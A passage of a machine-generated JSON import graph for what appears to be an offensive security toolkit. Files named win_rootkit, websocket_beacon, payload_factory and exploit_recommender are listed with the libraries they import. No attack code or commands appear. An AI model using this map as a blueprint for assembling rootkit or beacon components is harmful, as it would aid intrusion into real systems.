"modules/unified_bridge.py", "target": "modules.lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "modules.lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "modules.toposwarm_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "modules.toposwarm_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "modules.mcp_agent_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "modules.state_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "modules.state_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "skills.lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "modules.live_surface"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "modules.dashboard_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "modules.exploit_recommender"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_dashboard.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "ctypes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "ctypes.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "platform"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "plistlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "Foundation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "httplib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "objc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "Quartz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "urllib2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/venator.py", "target": "Foundation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vuln_bot_cli.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vuln_bot_cli.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vuln_bot_cli.py", "target": "vulnbot"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vulnbot.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vulnbot.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vulnbot.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vulnbot.py", "target": "agent_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vulnbot.py", "target": "ai_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vulnbot.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vulnbot.py", "target": "llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vulnbot.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vulnbot.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/vulnbot.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "websocket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "websockets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "cryptography.fernet"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/websocket_beacon.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "winsock2.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "windows.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "winuser.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "wininet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "windowsx.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "tlhelp32.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "shlwapi.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/backup.c", "target": "tchar.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/mrhyde.c", "target": "windows.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/mrhyde.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/mrhyde.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/mrhyde.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/mrhyde.c", "target": "tlhelp32.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_rin3_rootkit.cs", "target": "System"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_rin3_rootkit.cs", "target": "System.Diagnostics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_rin3_rootkit.cs", "target": "System.Runtime.InteropServices"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_rin3_rootkit.cs", "target": "System.Text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_rin3_rootkit.cs", "target": "Microsoft.Win32.SafeHandles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_rin3_rootkit.cs", "target": "System.IO"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "winsock2.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "windows.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "winuser.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "wininet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "windowsx.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "tlhelp32.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "shlwapi.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.c", "target": "tchar.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.cpp", "target": "windows.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.cpp", "target": "tlhelp32.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.cpp", "target": "shlwapi.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/win_rootkit/win_ring3_rootkit.cpp", "target": "detours.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/workspace.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/workspace.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/workspace.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "cryptography.hazmat.primitives.kdf.pbkdf2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/world_model.py", "target": "cryptography.fernet"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yaml_generator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yaml_generator.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yaml_generator.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yaml_generator.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yaml_generator.py", "target": "ai_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yaml_generator.py", "target": "llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yaml_generator.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yara_scanner.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yara_scanner.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yara_scanner.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yara_scanner.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yara_scanner.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yara_scanner.py", "target": "yara"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/yara_scanner.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/__main__.py", "target": "app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "textual"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "textual.binding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "textual.reactive"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "textual.timer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "lazyown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "lazyown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "traceback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/app.py", "target": "traceback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/config.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/config.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/config.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/config.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/plugin_loader.py", "target": "lupa"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/run.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/run.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/run.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/run.py", "target": "app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/test_app.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/test_app.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/test_app.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/test_app.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/test_app.py", "target": "app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "poc_tui/test_app.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "concurrent.futures"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "libnmap.parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "modules.security_sanitizers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "pwntomate.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "readmeneitor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "readmeneitor.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "readmeneitor.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "readmeneitor.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "readmeneitor.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "readmeneitor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "readmeneitor.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/activate_migrations.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/activate_migrations.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/activate_migrations.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/activate_migrations.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/backfill_addon_os_trigger.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/backfill_addon_os_trigger.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/backfill_addon_os_trigger.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/backfill_addon_os_trigger.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/check_contract_manifest.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/check_contract_manifest.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/check_contract_manifest.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/check_contract_manifest.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/check_contract_manifest.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/check_contract_manifest.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/command_audit.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/command_audit.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/command_audit.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/command_audit.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/command_audit.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/command_audit.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/command_audit.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/command_audit.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/command_audit.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/command_audit.py", "target": "lazyown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/devtools/core_smoke.py", "target": "modules.payload_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/fix_migrated_classes.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/generate_sbom.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/generate_sbom.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/generate_sbom.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/generate_sbom.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/generate_sbom.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/generate_sbom.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/generate_sbom.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/journal.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/journal.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/journal.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/journal.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/journal.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/journal.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/journal.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/journal.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/lazy_opencode_config.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/lazy_opencode_config.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/lazy_opencode_config.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/lazy_opencode_config.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/lazy_opencode_config.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/lazy_opencode_config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/lazy_opencode_config.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/migrate_commandsets.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/migrate_commandsets.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/migrate_commandsets.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/migrate_commandsets.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/migrate_commandsets.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/migrate_lazyown.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/migrate_lazyown.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/migrate_lazyown.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/migrate_lazyown.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/migrate_lazyown.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/patch_playbook_atomic_ids.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/patch_playbook_atomic_ids.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/read_journal.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/read_journal.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/read_journal.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/read_journal.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/read_journal.py", "target": "scripts.journal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/sync_doc_stats.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 